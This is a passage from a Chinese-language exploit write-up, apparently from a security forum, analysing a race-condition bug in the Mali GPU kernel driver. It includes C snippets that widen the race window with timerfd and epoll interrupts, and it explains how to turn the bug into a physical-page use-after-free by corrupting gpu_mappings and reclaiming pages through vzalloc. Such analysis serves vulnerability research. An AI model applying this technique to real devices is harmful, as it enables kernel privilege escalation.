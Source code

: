 为了扩大 race 的时间窗，作者利用 [timerfd 时钟中断技术](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html)

```c
  migrate_to_cpu(0);   //<------- pin this task to a cpu

  int tfd = timerfd_create(CLOCK_MONOTONIC, 0);   //<----- creates timerfd
  //Adds epoll watchers
  int epfds[NR_EPFDS];
  for (int i=0; i<NR_EPFDS; i++)
    epfds[i] = epoll_create1(0);

  for (int i=0; i<NR_EPFDS; i++) {
    struct epoll_event ev = { .events = EPOLLIN };
    epoll_ctl(epfd[i], EPOLL_CTL_ADD, fd, &ev);
  }  

  timerfd_settime(tfd, TFD_TIMER_ABSTIME, ...);  //<----- schedule tfd to be available at a later time

  ioctl(mali_fd, KBASE_IOCTL_SOFT_EVENT_UPDATE,...); //<---- tfd becomes available and interrupts this ioctl  
```

大致思路就是在 kbase\_vmap\_prot 和 \*mapped\_evt 之间出发时钟中断，从而扩大时间窗，在两步之间释放 mapped\_evt 对应的物理页，就能够达到物理页 UAF 的能力。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3518bc1e8c26aead6b8e35c03c08623aea34e88f.png)

mapped\_evt 在页内的偏移可控，写的内容为 0 或者 1，总结下来漏洞的原语是物理内存 UAF 写，写的值只能 0 或者 1

```c
static inline struct kbase_mem_phy_alloc *kbase_alloc_create(
        struct kbase_context *kctx, size_t nr_pages,
        enum kbase_memory_type type, int group_id)
{
    ...
    size_t alloc_size = sizeof(*alloc) + sizeof(*alloc->pages) * nr_pages;
    ...
    /* Allocate based on the size to reduce internal fragmentation of vmem */
    if (alloc_size > KBASE_MEM_PHY_ALLOC_LARGE_THRESHOLD)
        alloc = vzalloc(alloc_size);
    else
        alloc = kzalloc(alloc_size, GFP_KERNEL);
    ...
}
```

kbase\_alloc\_create 分配 kbase\_mem\_phy\_alloc 时会调用 vzalloc 分配内存，vzalloc 的逻辑是根据大小计算分配的物理页数目，然后逐次调用 alloc\_page 分配物理页，利用这个逻辑可以比较快速的占位刚刚释放的物理页（slab cross cache 时间相对较长）

根据之前的漏洞分析，我们知道 gpu\_mappings 控制的物理页的释放，如果通过 UAF 将其修改为 0 或者 1，就能提前释放一个被别名映射的 kbase\_mem\_phy\_alloc 中的物理页，导致物理页UAF

```c
struct kbase_mem_phy_alloc {
    struct kref           kref;
    atomic_t              gpu_mappings;
    size_t                nents;
    struct tagged_addr    *pages;
    struct list_head      mappings;
```
